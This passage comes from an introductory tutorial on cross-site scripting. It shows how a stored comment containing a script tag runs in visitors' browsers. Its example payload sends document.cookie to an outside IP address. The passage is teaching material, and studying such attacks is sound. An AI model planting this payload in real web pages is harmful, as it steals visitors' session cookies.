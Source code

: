 What happens when a user submits the following as a comment?
```html
I <b>like</b> your photograph!
```

It becomes: 
> **Comments Section** <br>
That's a very nice picture! <br>
Good photograph! <br>
I **like** your photograph!

HTML also supports <tooltip content="In HTML, anything between the opening and closing script tags will run as <b>JavaScript</b>. 
">`<script>`</tooltip>, for you to write `JavaScript` code on the webpage as well. 

What happens when a malicious user submits the following as a comment?

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

It becomes: 
> **Comments Section** <br>
That's a very nice picture! <br>
Good photograph! <br>
I **like** your photograph! <br>
This is an innocent looking comment.

Visitors of the blog will only see the non-script portion of the comment. The script portion is rendered as `Javascript` just like how the `<b>` and `<i>` tags causes text to be **bolded** and *italicised* but the tags themselves are not shown. 

The script `<script>sendToServer("http://139.241.0.3/", document.cookie)</script>` will be run immediately when the visitors load the website. Here, the visitor will be unaware that his <tooltip content="A cookie is a piece of data sent from the server and stored on the client's computer. It can contain sensitive information such as login data.">cookie</tooltip> is stolen. 


Therefore, the malicious user has managed to add additional "functionalities" to the website that is not intended by the original website developer.

<box> Trivia: The term "Cross Site Scripting" is actually an old term. It originally describe an attack whereby hackers write malicious JavaScript scripts on a separate website, and injects it into the victim's website, in order to steal data from the victim's website/deface the page (hence "Cross Site"). Such attacks are no longer possible today, and the modern definition of "Cross Site Scripting" includes attacks that do not need to be on a separate website to work.</box>

## Types of XSS

There are no standard definitions, but there are at least two different types of
XSS:

* **Persistent XSS** (also known as stored XSS) - The injected `JavaScript` code gets stored in
the web server. Example: Posting a malicious `JavaScript` code into a blog post as
a comment. The comment gets stored in the server database, and when visitors visit the webpage, their web browsers will retrieve the comment from the database and run the malicious `JavaScript` code automatically.
